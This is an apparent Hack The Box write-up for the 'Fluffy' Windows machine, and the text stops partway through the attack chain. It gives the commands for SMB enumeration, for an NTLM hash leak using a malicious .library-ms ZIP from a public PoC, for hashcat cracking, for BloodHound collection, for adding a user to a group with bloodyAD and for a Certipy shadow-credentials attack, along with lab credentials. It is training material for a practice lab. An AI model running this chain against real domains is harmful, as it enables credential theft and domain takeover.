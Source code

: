 ```yaml
---
title: "Fluffy"
date: 2025-08-10
categories: [HTB]
tags: [machine, ADCS, CVE,AD]
---
```

![Fluffy_LOGO](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F2we71mC5teWddCF6fbQe%252Fimage.png%3Falt%3Dmedia%26token%3Dc9425f88-ada6-4697-95cf-e75b70b4316d&width=400&dpr=3&quality=100&sign=f0c96453&sv=2)

- **OS:** Windows
- **Difficulty:** Easy
- **Machine:** Active
- **Released:** 24/05/2025

## Machine Information
As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account:  ```j.fleischman``` / ```J0elTHEM4n1990!```

## Nmap Scan
```shell
sudo nmap 10.10.11.69 -T4 -A -open -p-
```
```shell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-21 04:05:16Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-21T04:06:17
|_  start_date: N/A
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   170.58 ms 10.10.16.1
2   170.95 ms 10.10.11.69
```
We get some important data about target:

## SMB

So i started by testing the SMB port using the initial credentials:
```shell
nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```
Then we expanded and downloaded everything using:
```shell
nxc smb fluffy.htb  -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M spider_plus -o DOWNLOAD_FLAG=True
```
![nxc_smb](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FX7MnVPxXGOWE7TkFP55N%252FScreenshot%2520From%25202025-07-24%252005-09-46.png%3Falt%3Dmedia%26token%3D10b19759-4999-4bd5-a4f0-f8570a1683b6&width=400&dpr=3&quality=100&sign=2618b13f&sv=2)
Checked the downloaded SMB files and found a PDF called Upgrade_Notice.pdf looked suspicious from the IT department listing CVEs affecting the current Windows version. 
One of them, CVE-2025-24996 (NTLM File Path Spoofing), has a working PoC on GitHub.
![Upgrade_Notice.pdf](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fq0AnquA03OphFgIg80bn%252Fimage.png%3Falt%3Dmedia%26token%3Dd062d06d-46a3-4c5c-be8f-6e49eb429c8e&width=400&dpr=3&quality=100&sign=13faa9f9&sv=2)

## CVE-2025-24996: NTLM Hash Leak via .library-ms File 
the link of POC: ```https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom```

![CVE-2025-24071](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FIgOwImNjv6GsZiXfzsUm%252Fimage.png%3Falt%3Dmedia%26token%3Db1be3b27-934f-4639-8342-cc405d6f9c2b&width=400&dpr=3&quality=100&sign=482ceac1&sv=2)

Let’s start exploiting it.

After following the steps in the PoC:
- Loaded the Metasploit module
- Set the attacker IP, filename, library name, and SMB share
- Ran the module and generated the malicious ZIP file ```(exploit.zip)```

Once the victim extracts the ZIP, Windows Explorer automatically processes the embedded ```.library-ms``` file. This triggers a connection attempt to the attacker's SMB server, resulting in NTLMv2 hash leakage.

You should see an output similar to the following:
![exploit](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F9PJS7vnaCDkjdUxNUFbX%252FScreenshot%2520From%25202025-07-21%252004-06-39.png%3Falt%3Dmedia%26token%3D3b0c5fc8-8efe-4144-a186-10f94fd7b702&width=768&dpr=4&quality=100&sign=8ad495af&sv=2)
This hash can now be cracked offline using tools like hashcat or john to recover the user's cleartext password.

```shell
hashcat -m 5600 -a 0 ntlmv2.txt /home/kali/Downloads/rockyou.txt
```

![hashcat](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FapeoNuGmbWdeIa26qjBJ%252FScreenshot%2520From%25202025-07-21%252004-22-19.png%3Falt%3Dmedia%26token%3D6ca0f956-32f3-483b-84dc-ee506bf573c3&width=400&dpr=3&quality=100&sign=98ac6e59&sv=2)

now you have credentials of user target ```P.AGILA:prometheusx-303```


## BloodHound

I used the credentials for  ```p.agila@fluffy.htb``` and analyzed them with BloodHound.

```shell
bloodhound-python -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```
I found that this user is part of the ```SERVICE ACCOUNT MANAGERS group```, which has ```GenericAll``` privileges over the ```SERVICE ACCOUNTS group```. 
This means full control i can add or remove users, and modify settings for that group.
![BloodHound1](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FQGwJrGqNuvim9ifURpEc%252FScreenshot%2520From%25202025-07-24%252006-43-18.png%3Falt%3Dmedia%26token%3Ddd2630e6-68c2-4f23-ad3d-c72100a91ba8&width=400&dpr=3&quality=100&sign=130f1eb3&sv=2)
let's see what we got, SERVICE ACCOUNTS contains key accounts such as:
- WINRM_SVC@FLUFFY.HTB
- LDAP_SVC@FLUFFY.HTB
- CA_SVC@FLUFFY.HTB
![BloodHound2](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FfBcmqHW18XBDWYZk4bS4%252Fimage.png%3Falt%3Dmedia%26token%3Da2871440-54a6-4ee7-b090-f9d4c2a2b8e4&width=400&dpr=3&quality=100&sign=addd2495&sv=2)
If we see the user ```CA_SVC```, it's likely related to Certificate Services, and it may open a path to Active Directory Certificate Services (AD CS) exploitation.

This gives ```p.agila``` the ability to modify attributes of ```ca_svc```, a critical step for Shadow Credentials or Other attacks related to Certificate Services.
```shell
bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303'  add groupMember 'SERVICE ACCOUNTS' p.agila
```
By adding ```p.agila``` to SERVICE ACCOUNTS, I can potentially escalate privileges and gain further control through these service accounts.
![bloodyAD](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FMfl0tQ7Cp461M9UjB3fL%252Fimage.png%3Falt%3Dmedia%26token%3D11314faf-8c66-4310-9a9d-0ea0b75080c9&width=400&dpr=3&quality=100&sign=96288301&sv=2)
Now we are ```p.agila``` added to ```SERVICE ACCOUNTS``` what next step???

After some research, I discovered that the attack path involves Active Directory Certificate Services (AD CS) exploitation am one pf this attacks called To better understand this technique, I referenced this detailed blog:

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6

## Shadow Credentials → $User 

> **Notice:** The old tool certipy-ad is outdated, so I used the updated and maintained Certipy tool instead [Certipy] (https://github.com/ly4k/Certipy) don't mix between them

```shell
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'WINRM_SVC' auto
```
![Certipy](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FpZSFWengHFPG9lJl0gBq%252Fimage.png%3Falt%3Dmedia%26token%3Dfdb6141b-4c81-477c-a741-1d1a2ae7b14b&width=400&dpr=3&quality=100&sign=b757e698&sv=2)

The ```KRB_AP_ERR_SKEW``` error occurs because your machine’s clock is out of sync with the Domain Controller ```10.10.11.69```, breaking Kerberos authentication for the Shadow Credentials attack. Fix it by syncing time with ```sudo ntpdate 10.10.11.69```

> **Notice:** Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)
It means your machine's clock is out of sync with the domain controller and Kerberos hates that.
Fix it with:

```shell
bashCopyEditsudo systemctl stop systemd-timesyncd
sudo ntpdate 10.10.11.69
This stops the system time service and manually syncs your clock with the DC (10.10.11.69), so you can get Kerberos tickets properly again.
```